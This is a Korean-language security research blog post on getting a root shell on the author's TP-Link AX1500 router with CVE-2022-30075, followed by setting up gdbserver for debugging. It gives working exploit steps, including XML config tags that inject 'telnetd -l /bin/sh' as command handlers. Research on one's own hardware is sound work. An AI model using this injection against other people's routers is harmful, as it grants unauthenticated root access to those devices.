 ```yaml
---
title: "TP-Link AX1500 1-day를 이용한 Shell 획득"
date: 2025-01-18 +0900
categories: [Project, Baseband Hacking]
tags: ['iot', 'firmware', '1-day', 'uart']
image:
    path: "/assets/img/posts/2025-01-18-TP-Link-AX1500-1-day를-이용한-Shell-획득/image2.png"
    alt: "Get Shell"
    lqip: "/assets/img/posts/2025-01-18-TP-Link-AX1500-1-day를-이용한-Shell-획득/image2.png"
---
```


TP-Link AX1500 공유기의 쉘을 얻기 위한 마지막 방법인 **1-day exploit**를 이용한 방법입니다.

1. ~~Firmware Update 페이지~~ ❌
2. ~~CFE Console~~ 🤔
3. ~~UART를 통한 Shell 획득~~ ❌
4. **1-day를 이용한 Shell 획득**

## CVE-2022-30075

> https://github.com/gmaxus/TP-Link-Archer-AX1500-telnet-root/blob/main/README-eng.md
> https://github.com/aaronsvk/CVE-2022-30075

### 1.펌웨어 버전 다운그레이드
먼저 해당 취약점이 패치되기 전의 펌웨어로 다운그레이드가 필요합니다. 펌웨어 업그레이드 페이지에서 이전 버전의 펌웨어 파일을 업로드하고 "UPDATE" 버튼을 누르면 다운그레이드가 완료됩니다.
![alt text](/assets/img/posts/2025-01-18-TP-Link-AX1500-1-day를-이용한-Shell-획득/image.png)

### 2.현재 펌웨어 구성요소 백업
`python tplink.py -t 192.168.0.1 -p <password> -b` 를 실행하여 현재 펌웨어에 대한 구성 요소를 백업합니다.(`ori-backup-user-config.xml` 로 저장됨.)

### 3.태그 추가
`ori-backup-user-config.xml` 에 다음과 같은 태그를 추가해준다.
    
```xml
<button name="exploit">
<action>released</action>
<max>1999</max>
<handler>/usr/sbin/telnetd -l /bin/sh</handler>
<min>0</min>
<button>wifi</button>
</button>
```

```xml
<service name="exploit">
<ip_script>/usr/sbin/telnetd -l /bin/sh</ip_script>
<username>X</username>
<retry_unit>seconds</retry_unit>
<check_interval>12</check_interval>
<interface>internet</interface>
<enabled>on</enabled>
<force_unit>days</force_unit>
<check_unit>hours</check_unit>
<domain>x.example.org</domain>
<password>X</password>
<retry_interval>5</retry_interval>
<ip_source>script</ip_source>
<update_url>http://127.0.0.1/</update_url>
<force_interval>30</force_interval>
<retry_times>3</retry_times>
</service>
```
    
### 4.변경된 구성파일을 업로드
`python tplink.py -t 192.168.0.1 -p <password> -r ./ArcherAX10v120230220134n` 을 실행하여 구성파일을 업로드한다.

### 5. telnet 실행
`telnet 192.168.0.1` 실행

![alt text](/assets/img/posts/2025-01-18-TP-Link-AX1500-1-day를-이용한-Shell-획득/image2.png)

## 원격 디버깅
telnet 구동을 통해 원격으로 shell에 접근할 수 있기 때문에 실제 라우터에서 동작하는 바이너리를 분석할 수 있도록 gdbserver나 strace 등을 설치해야합니다.<br>

그러나 rootfs에 직접 write할 수 없기 때문에 `/tmp` 폴더에 설치해야합니다.

arm 아키텍처에 대한 gdbserver와 strace의 바이너리는 아래의 github repository에서 얻을 수 있습니다.
> https://github.com/therealsaumil/static-arm-bins/tree/master

1. tftp를 이용하여 로컬에서 tp-link로 파일 전송
```shell
tftp -r gdbserver-armel-static-8.0.1 -g 192.168.0.100
```

![alt text](/assets/img/posts/2025-01-18-TP-Link-AX1500-1-day를-이용한-Shell-획득/image3.png)

2. gdbserver 실행
```shell
./gdbserver-armel-static-8.0.1 :8888 --attach 7608
```
![alt text](/assets/img/posts/2025-01-18-TP-Link-AX1500-1-day를-이용한-Shell-획득/image4.png)